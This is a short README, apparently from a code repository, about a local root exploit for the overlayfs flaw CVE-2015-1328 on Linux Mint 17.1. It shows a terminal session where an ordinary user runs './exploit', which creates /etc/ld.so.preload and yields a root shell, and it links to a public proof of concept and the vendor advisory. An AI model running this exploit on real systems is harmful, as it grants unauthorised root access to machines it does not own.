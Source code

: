 # Description
截止到今天，LinuxMint目前比较新的版本17.1可以直接本地普通用户提权，最新的17.2需要在进行远程的时候可以，本地不可以！

# Testing

```
$ id
uid=1000(mudongliang) gid=1000(mudongliang) 组=1000(mudongliang),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),110(sambashare)
$ ./exploit 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),110(sambashare),1000(mudongliang)
```

# Reference
[FreeBuf News](http://www.freebuf.com/news/70615.html)

[CVE-2015-1328](http://cxsecurity.com/issue/WLB-2015060081)

[POC](https://www.exploit-db.com/exploits/37292/)

[USN-2646-2](http://www.ubuntu.com/usn/usn-2646-2/)  

[User Namespace](https://lwn.net/Articles/531114/)

